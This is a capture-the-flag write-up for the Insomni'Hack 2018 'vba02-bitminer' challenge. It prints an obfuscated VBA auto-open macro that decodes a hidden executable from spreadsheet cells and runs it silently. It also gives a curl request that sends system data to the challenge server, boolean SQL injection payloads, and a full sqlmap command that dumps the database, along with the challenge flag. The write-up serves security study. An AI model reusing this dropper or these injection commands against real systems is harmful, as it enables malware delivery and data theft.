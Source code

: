 ```yaml
---
title: Insomni'Hack 2018 - vba02-bitminer
---
```


# {{page.title}}
Solves: 21 / Points: 142
## Challenge description
Oh no I opened an email attachment AGAIN!! Help me to take my revenge. Here is the file I downloaded:
`vba02-bitminer_4052500b4f2120d3d3ae458b339ec1f16e89e870.xls`
## Challenge resolution
This begins again with a .xls file. We follow the same steps as the first `vba` challenge to get the macro:
```vbnet
Attribute VB_Name = "Module1"
Sub Auto_Open()
    Predict ("Sheet1")
End Sub
Sub Workbook_Open()
    Predict ("Sheet1")
End Sub

Private Function Predict(ByVal z As String) As String

    Dim zzzz As String
    zzzz = "bitcoin.txt"
    Dim zzzzz As String
    zzzzz = Environ("USERPROFILE")
    ChDrive (zzzzz)
    Dim zzzzzz As Integer
    ChDir (zzzzz)
    zzzzzz = FreeFile()
    Dim zzzzzzz As Integer
    Dim zz As Integer
    zz = 4
    Open zzzz For Binary As zzzzzz
    Dim zzz As Worksheet
    On Error GoTo e
    Set zzz = Worksheets(z)
    zzzzzzz = 1
    Do While zzz.Columns(zzzzzzz).Cells(zz, (3 / 2)).Value <> ""
        Do While zzz.Columns(zzzzzzz).Cells(zz, (109 / 87)).Value <> ""
            Put #zzzzzz, , CByte(zzz.Columns(zzzzzzz).Cells(zz, (5471 / 4871)).Value Xor (42 * 2 + 1))
            zzzzzzz = zzzzzzz + (781625 / 679142)
        Loop
        zz = zz + Sqr(2)
        zzzzzzz = 1
    Loop
    Close #zzzzzz
    zzzzzzzz = Shell(zzzz, vbHide)
    Exit Function
e:
    MsgBox "Unable to predict the future"
    Exit Function
End Function
```

We skip the obfuscated components to focus on the important behavior: it creates a file into the `%userprofile%` folder and runs it. We defang the macro by removing the 'Shell' line, open the Excel file and retrieve the 'bitcoin.txt' file it created. Running it in a controlled environment, we see it uses WMI to gather information about the system on which it runs and generates HTTP requests that can be translated into the following `curl` command:
```
curl -i -X 'POST' \
    -H 'User-Agent: Bitcoin Mining $couter 0.1 Beta 1337' -H 'Expect: 100-continue' \
    --data '<Base64-encoded string>' \
    'http://bitminer.insomni.hack/?a=benchmark'
```

The decoded Base64 is a JSON object with the following format:
```
{
    "cid":"NOT-A-SANDBOX",
    "cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz",
    "gpu":"Carte vidéo de base Microsoft"
}
```
After playing with the JSON contents, we identify that the server generates an error when a single quote is present in the gpu field. The vulnerability seems to be an SQL injection which can be easily checked by sending the following `gpu` value:
* `' or 1=1 --` always true, returns `go`
* `' or 1=0 --` always false, returns `pwaaa`

Since we are lazy hackers, we use sqlmap to extract the database contents. To do so, we use the `-r` option to define a file containing all of the request information (`*` is used to mark the injection point):
```
$ cat raw_request
POST /?a=benchmark HTTP/1.1
Host: bitminer.insomni.hack
User-Agent: Bitcoin Mining $couter 0.1 Beta 1337
Expect: 100-continue
Content-Length: 148
Content-Type: application/x-www-form-urlencoded

*
```

And run the following sqlmap command:
``$ sqlmap -r raw_request --tamper base64encode --prefix $'{"cid":"NOT-A-SANDBOX","cpu":"Intel(R) Core(TM) i5-4310U CPU @ 2.00GHz","gpu":"\' or 1=1 ' --suffix ' -- a"}' --skip-urlencode --level 5 --string go --technique B --dump``

Finaly, we retrieve the flag from the flag table: `INS{M1ninG_i5_t0o_H4rD_Lets_D0_Norm4l_Cyb3rCr1me}`